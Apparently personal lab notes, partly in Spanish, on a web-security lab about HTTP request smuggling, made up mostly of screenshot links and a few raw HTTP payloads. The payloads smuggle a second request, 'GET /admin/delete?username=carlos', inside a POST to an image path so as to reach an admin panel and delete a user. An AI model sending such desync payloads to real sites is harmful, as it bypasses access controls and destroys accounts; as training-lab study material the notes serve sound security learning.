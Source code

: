 ![[Pasted image 20230722075855.png]]


payloads:

Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x


segundo payload:
/resources/images/blog.svg

tercer payload:
POST /resources/images/blog.svg HTTP/1.1
Host: LAB LINK
Cookie: cookie session
Connection: keep-alive
Content-Length: CORRECT

GET /admin/delete?username=carlos HTTP/1.1
Foo: x


![[Pasted image 20230722082009.png]]

![[Pasted image 20230722082039.png]]

![[Pasted image 20230722082057.png]]

limpio, actualizo el content length a que esta vez si se pueda actualizar y que el request sea post y 1.1

![[Pasted image 20230722082149.png]]

primer payload:

![[Pasted image 20230722082300.png]]

![[Pasted image 20230722082349.png]]

chequeando que aun tenga el admin panel:

![[Pasted image 20230722082417.png]]

segundo payload:

![[Pasted image 20230722082503.png]]

![[Pasted image 20230722082521.png]]

tercer payload:

![[Pasted image 20230722082645.png]]

hago 2 send (uno para el post y el otro para el GET)

correccion en el paylopad de arriba (tengo duplicado Cookie)

![[Pasted image 20230722082754.png]]

![[Pasted image 20230722082809.png]]

![[Pasted image 20230722082824.png]]


